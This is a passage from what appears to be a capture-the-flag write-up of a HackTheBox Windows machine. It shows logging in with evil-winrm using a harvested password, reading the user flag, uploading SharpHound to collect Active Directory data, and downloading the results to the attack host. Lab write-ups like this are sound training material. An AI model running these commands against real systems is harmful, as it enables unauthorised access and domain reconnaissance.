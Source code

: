 ### BloodHound

Before anything else, let's log into the box using WinRM and grab the `user.txt` flag 🚩. Now that we got our foothold, we can collect domain information to analyze using SharpHound (Figure 18).

{% tabs %}
{% tab title="1. WinRM" %}
```bash
evil-winrm -i 10.10.10.179 -u tushikikatomo -p $(cat tushi_pass)
```
{% endtab %}

{% tab title="2. user.txt" %}
```powershell
type ..\desktop\user.txt
```
{% endtab %}

{% tab title="3. SharpHound" %}
```powershell
# upload the executable to the target
upload SharpHound/SharpHound.exe
# run SharpHound
.\SharpHound.exe -c all
# list output file's name
dir
# download zip file to the attack host
download 20240331171236_BloodHound.zip
```
{% endtab %}
{% endtabs %}

<figure><img src="../../.gitbook/assets/multi_sharphound.png" alt=""><figcaption><p>Figure 18: Uploiading and running SharpHound on the target.</p></figcaption></figure>